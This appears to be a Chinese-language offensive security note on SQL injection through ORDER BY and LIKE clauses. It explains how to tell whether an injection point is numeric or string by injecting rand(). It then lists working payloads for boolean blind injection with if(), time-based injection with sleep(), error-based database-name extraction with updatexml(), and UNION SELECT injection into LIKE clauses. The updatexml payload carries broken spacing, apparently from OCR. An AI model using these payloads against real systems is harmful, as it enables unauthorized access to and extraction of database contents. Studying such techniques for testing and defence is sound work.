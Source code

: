 ## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5)
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
```

^
## **like**
like可以使用联合注入。
like一般也在where语句之后。
```
1、where like xx
where like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where like "xx"
where like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```